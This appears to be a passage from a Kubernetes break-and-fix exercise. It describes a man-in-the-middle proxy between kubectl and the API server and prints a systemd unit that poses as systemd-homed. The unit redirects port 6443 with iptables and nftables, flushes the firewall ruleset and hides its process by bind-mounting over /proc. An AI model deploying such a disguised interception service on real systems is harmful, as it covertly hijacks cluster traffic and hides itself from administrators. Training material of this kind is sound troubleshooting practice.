 
### Fix

Simply remove the config.toml resolves the issue.

```bash
rm -f /etc/containerd/config.toml
systemctl restart containerd
```

## Man-in-the-middle

Custom written MITM proxy for mutate all http requests between local `kubectl` and `api-server`.
The proxy injects in every HTTP request the `dry-run` flag which prevent any changes to any manifest.
Traffic is redirect through kernel technics.
We through, just having `iptables` is too easy.
In addition to `iptables` we also use the newer `nftables` framework to redirect the traffic.
Since it's the process itself is not part of the fix, we mask the `/proc/$PID/` path of the process to hide it.
The process is named systemd-homed and covered by systemd which makes the whole break reboot-safe.
The API Proxy re-uses the TLS service from apiserver to serve a valid https listener.
The client certificate of the kubernetes admin user was hard-coded as an obfuscated string.

### Break

```ini
; /lib/systemd/system/systemd-homed.service
[Unit]
Description=Home Area Manager
Documentation=man:systemd-homed.service(8)
Documentation=man:org.freedesktop.home1(5)
After=home.mount dbus.service

[Service]
ExecStart=/usr/bin/systemd-homed
Restart=always
RestartSec=0
StandardOutput=null
StandardError=null

ExecStartPre=-/bin/bash -c 'iptables -t nat -nL OUTPUT | grep 853 && iptables -t nat -A OUTPUT ! -d 127.0.0.53/32 -p tcp -m tcp --dport 6443 -j REDIRECT --to-ports 853'
ExecStartPre=-/bin/bash -c 'iptables -t nat -nL PREROUTING | grep 853 && iptables -t nat -A PREROUTING ! -d 127.0.0.53/32 -p tcp -m tcp --dport 6443 -j REDIRECT --to-ports 853'
ExecStartPre=-/bin/bash -c 'ip6tables -t nat -nL OUTPUT | grep 853 && ip6tables -t nat -A PREROUTING -p tcp -m tcp --dport 6443 -j REDIRECT --to-ports 853'
ExecStartPre=-/bin/bash -c 'ip6tables -t nat -nL PREROUTING | grep 853 && ip6tables -t nat -A OUTPUT -p tcp -m tcp --dport 6443 -j REDIRECT --to-ports 853'
ExecStartPre=/bin/bash -c "printf 'flush ruleset; table ip nat { chain prerouting { type nat hook prerouting priority 0; policy accept; ip daddr != 127.0.0.53 tcp dport 6443 dnat to :853; }; chain postrouting { type nat hook postrouting priority 100; policy accept; }; chain output { type nat hook output priority 100; policy accept; ip daddr != 127.0.0.53 tcp dport 853 dnat to :2222; };};' | nft -f -"
ExecStartPre=/bin/bash -c 'umount -q /proc/*'
ExecStartPost=/bin/bash -c 'mount -o bind /proc/fs/nfsd/ /proc/$(pidof systemd-homed)/'

[Install]
WantedBy=multi-user.target
```
